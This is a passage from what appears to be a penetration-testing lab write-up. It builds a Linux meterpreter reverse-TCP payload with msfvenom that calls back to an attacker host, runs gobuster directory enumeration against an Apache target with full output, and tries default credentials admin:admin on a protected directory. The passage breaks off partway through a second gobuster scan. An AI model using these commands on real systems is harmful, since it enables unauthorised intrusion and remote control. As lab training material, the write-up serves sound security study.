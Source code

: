 then upload the appropriate mfvenome:

```bash
msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=<ip> lport=9080 -f elf -o meter
```



### Second Target (Apache httpd):

```bash
172.16.64.140
```

#### dir busting:

```bash
└─$ sudo gobuster dir -u http://172.16.64.140 -w /usr/share/seclists/Discovery/Web-Content/common.txt                                                                  1 ⨯
===============================================================
Gobuster v3.1.0
===============================================================
[+] Url:                     http://172.16.64.140
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 297]
/.htaccess            (Status: 403) [Size: 297]
/.hta                 (Status: 403) [Size: 292]
/css                  (Status: 301) [Size: 312] [--> http://172.16.64.140/css/]
/img                  (Status: 301) [Size: 312] [--> http://172.16.64.140/img/]
/index.html           (Status: 200) [Size: 1487]                               
/project              (Status: 401) [Size: 460]                                
/server-status        (Status: 403) [Size: 301]                                
                                                                               
===============================================================
Finished
===============================================================
```

/project: apparently the only accessible one (with the prompt hint let's try admin:admin) .

#### more dir busting but now we know the creds:

```bash
└─$ sudo gobuster dir -u http://172.16.64.140/project/ -w /usr/share/seclists/Discovery/Web-Content/common.txt  -U admin -P admin
===============================================================
Gobuster v3.1.0
===============================================================
[+] Url:                     http://172.16.64.140/project/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Auth User:               admin
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 305]
```
